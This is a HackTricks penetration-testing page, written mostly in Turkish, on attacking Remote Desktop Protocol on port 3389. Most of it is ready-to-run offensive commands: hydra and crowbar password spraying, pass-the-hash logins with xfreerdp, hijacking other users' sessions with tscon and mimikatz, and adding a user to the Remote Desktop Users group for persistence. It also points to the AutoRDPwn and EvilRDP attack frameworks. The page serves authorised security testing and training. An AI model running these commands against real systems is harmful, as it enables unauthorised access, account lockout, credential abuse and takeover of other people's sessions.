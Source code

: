# 3389 - Pentesting RDP

{{#include ../banners/hacktricks-training.md}}


## Temel Bilgiler

Microsoft tarafından geliştirilen **Remote Desktop Protocol** (**RDP**), bilgisayarlar arasında bir ağ üzerinden grafiksel bir arayüz bağlantısı sağlamak için tasarlanmıştır. Böyle bir bağlantı kurmak için, kullanıcı **RDP** istemci yazılımını kullanır ve aynı anda, uzak bilgisayarın **RDP** sunucu yazılımını çalıştırması gerekmektedir. Bu yapı, uzak bir bilgisayarın masaüstü ortamının kesintisiz kontrolünü ve erişimini sağlar, temelde arayüzünü kullanıcının yerel cihazına getirir.

**Varsayılan port:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeration

### Automatic
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
Mevcut şifreleme ve DoS zafiyetini (hizmete DoS oluşturmadan) kontrol eder ve NTLM Windows bilgilerini (sürümlerini) alır.

### [Brute force](../generic-hacking/brute-force.md#rdp)

**Dikkatli olun, hesapları kilitleyebilirsiniz**

### **Password Spraying**

**Dikkatli olun, hesapları kilitleyebilirsiniz**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Bilinen kimlik bilgileri/hash ile bağlanın
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### RDP hizmetlerine karşı bilinen kimlik bilgilerini kontrol et

impacket'ten rdp_check.py, bazı kimlik bilgilerinin bir RDP hizmeti için geçerli olup olmadığını kontrol etmenizi sağlar:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
## **Saldırılar**

### Oturum çalma

**SYSTEM izinleriyle** herhangi bir **kullanıcı tarafından açılmış RDP oturumuna** erişebilirsiniz, sahibinin şifresini bilmenize gerek yoktur.

**Açık oturumları al:**
```
query user
```
**Seçilen oturuma erişim**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Şimdi seçilen RDP oturumunun içinde olacaksınız ve yalnızca Windows araçları ve özelliklerini kullanarak bir kullanıcıyı taklit edeceksiniz.

**Önemli**: Aktif RDP oturumlarına eriştiğinizde, onu kullanan kullanıcıyı çıkartacaksınız.

Şifreleri süreçten dökerek alabilirsiniz, ancak bu yöntem çok daha hızlıdır ve kullanıcıların sanal masaüstleriyle etkileşimde bulunmanızı sağlar (şifreler not defterinde, diske kaydedilmeden, diğer makinelerde açık olan diğer RDP oturumları...)

#### **Mimikatz**

Bunu yapmak için mimikatz'ı da kullanabilirsiniz:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Bu tekniği **stickykeys** veya **utilman** ile birleştirerek, her zaman bir yönetici CMD ve herhangi bir RDP oturumuna erişim sağlayabilirsiniz.

Bu tekniklerden biriyle arka kapı bırakılmış RDP'leri aramak için: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Süreç Enjeksiyonu

Farklı bir alan adından veya **daha iyi ayrıcalıklara sahip biri RDP ile** **senin Admin** olduğun PC'ye giriş yaparsa, **RDP oturum sürecine** beacon'ını **enjekte** edebilir ve onun gibi hareket edebilirsin:

{{#ref}}
../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md
{{#endref}}

### RDP grubuna Kullanıcı Ekleme
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

- [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn**, Microsoft Windows bilgisayarlarında **Shadow** saldırısını otomatikleştirmek için tasarlanmış, Powershell'de oluşturulmuş bir post-exploitation framework'tür. Bu zafiyet (Microsoft tarafından bir özellik olarak listelenmiştir), uzaktan bir saldırganın **kurbanının masaüstünü izinsiz olarak görüntülemesine** ve hatta talep üzerine kontrol etmesine olanak tanır; bu, işletim sisteminin kendisine ait araçlar kullanılarak yapılır.

- [**EvilRDP**](https://github.com/skelsec/evilrdp)
- Komut satırından otomatik bir şekilde fare ve klavye kontrolü
- Komut satırından otomatik bir şekilde panoya kontrol
- RDP üzerinden hedefe ağ iletişimini yönlendiren bir SOCKS proxy'si oluşturma
- Hedefte dosya yüklemeden rastgele SHELL ve PowerShell komutları yürütme
- Hedefte dosya transferleri devre dışı olsa bile hedefe dosya yükleme ve indirme

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
{{#include ../banners/hacktricks-training.md}}
